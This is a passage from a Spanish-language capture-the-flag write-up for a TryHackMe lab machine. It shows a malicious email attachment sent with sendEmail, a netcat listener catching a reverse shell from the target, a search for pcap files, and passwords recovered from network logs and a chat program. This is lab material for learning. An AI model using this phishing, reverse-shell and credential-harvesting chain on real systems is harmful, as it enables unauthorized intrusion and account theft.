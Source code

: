 ```bash
╰─ lanfran@parrot ❯ sendEmail -t hakanbey@uranium.thm -f lanfran@mail.com -s 10.10.105.19 -u "Im an exploit :)" -m "Im gonna hack you" -a application -o tls=no
Aug 21 12:50:21 parrot sendEmail[1992588]: Email was sent successfully!
```
¡¡Y después de unos segundos obtenemos una shell reversa con el usuario hakanbey!!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                       ─╯
listening on [any] 1337 ...
connect to [10.9.1.54] from (UNKNOWN) [10.10.105.19] 48468
bash: cannot set terminal process group (1494): Inappropriate ioctl for device
bash: no job control in this shell
hakanbey@uranium:~$ ls
chat_with_kral4  mail_file  user_1.txt
hakanbey@uranium:~$ cat user_1.txt 
thm{[REDACTED]}
```
¡Podemos leer la flag del user_1!

Aquí viene la segunda parte del reconocimiento :)

Después de revisar la máquina ...

Tenemos un archivo pcap, así que lo descargué y lo leí con wirehark.

```bash
hakanbey@uranium:~$ find / -name *.pcap 2> /dev/null 
/var/log/hakanbey_network_log.pcap
```
¡Este es un registro de una comunicación y tenemos una contraseña en texto plano!

![password](password.png)

¡¡Perfecto!! ¡Tenemos la contraseña para iniciar binario del chat dentro del home folder de hakanbey!

```bash
hakanbey@uranium:~$ ./chat_with_kral4 
PASSWORD :[REDACTED]
kral4:hi hakanbey

->hi
hakanbey:hi
kral4:how are you?

->fine and you ?
hakanbey:fine and you ?
kral4:what now? did you forgot your password again

->yes
hakanbey:yes
kral4:okay your password is [REDACTED] don't lose it PLEASE
kral4:i have to go
kral4 disconnected

connection terminated
hakanbey@uranium:~$ sudo -l 
```